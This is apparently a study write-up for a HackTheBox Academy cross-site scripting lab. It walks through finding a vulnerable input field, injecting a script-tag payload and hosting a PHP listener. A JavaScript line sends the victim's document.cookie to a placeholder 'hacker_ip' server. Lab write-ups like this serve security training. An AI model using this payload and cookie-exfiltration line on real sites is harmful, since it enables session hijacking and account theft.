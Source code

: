 We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.**Answers:**

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-code.png" >

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```


<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/inputs.png" >
<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/php-server.png" >

### Great, it works!

### Let's check our cookie file.

<img src="https://github.com/saramazal/ethical-hacking-study/blob/main/HackTheBox/HTB-Academy-Cross-Site-Scripting-skills-assessment/images/cookie.png" >

## Happy Hacking!

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)


